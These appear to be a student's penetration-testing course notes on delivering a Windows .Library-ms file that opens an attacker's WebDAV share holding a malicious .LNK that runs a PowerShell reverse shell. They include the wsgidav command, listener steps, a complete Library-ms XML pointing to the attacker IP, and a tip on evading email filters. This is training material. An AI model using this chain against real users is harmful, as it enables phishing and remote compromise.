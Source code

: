 # Windows Library Files Code Execution
- 12.3.1 in Pen-200
- .Library-ms extension
- General idea is sending our Target/Victim a Windows Library File.
- Victim receives a .Library-ms file, perhaps via email.
- Once the Library file is opened by the target, it will connect them to a  a WebDav share that we control.
- Becuase it is a library, it appears as a regular directory in Windows Explorer. 
- We'll populate the WebDAV directory/share with a .LNK file or other malicious file, that executes a PowerShell RevShell. User must click the .LNK payload to execute.
NOTE: The reason we don't just send the link, is to bypass email filter, spam filter, as a lot of the security technologies will ALLOW the .Library-ms file, but not the .LNK.

## Recieving Connection
1. Launch Library listener, WebDAV
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/hacking/tools/webdav/
# test at 127.0.0.1 in browser
```
2. ncat listener on whatever port is specified in the LNK file
3. python http server to host powercat, (IF LNK specifies powercat usage). 
4. Place evil LNK or malicous file in directory referenced in step 1 **/webdav/**

## Create Library-ms file
- Name `config.Library-ms`
- written in XML to specify parameters for accessing remote locations
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.158</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>


<!--
<name>@windows.storage.dll,-34582</name>
This specifies the name of the library, not arbitrary

<version>6</version>
this can be whatever we want

<isLibraryPinned>true</isLibraryPinned>
Pin to navigation in explorer, makes it feel authentic

<iconReference>imageres.dll,-1003</iconReference>
What ICON is displayed to user, use imagesres.dll to choose between windows icons
-1002 = Documents folder icon,  -1003 = Pictures folder icon

<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>
GUID is valid Documents guid.. 

<url>http:/192.168.45.158</url>  - KALI IP
-->
```
Now when we launch that, we should see our test.txt file, being served by our WebDAV share on KALI
After connecting, you'll notice Windows modified some parts of the file, which may/will break it if you try to move it to an other machine
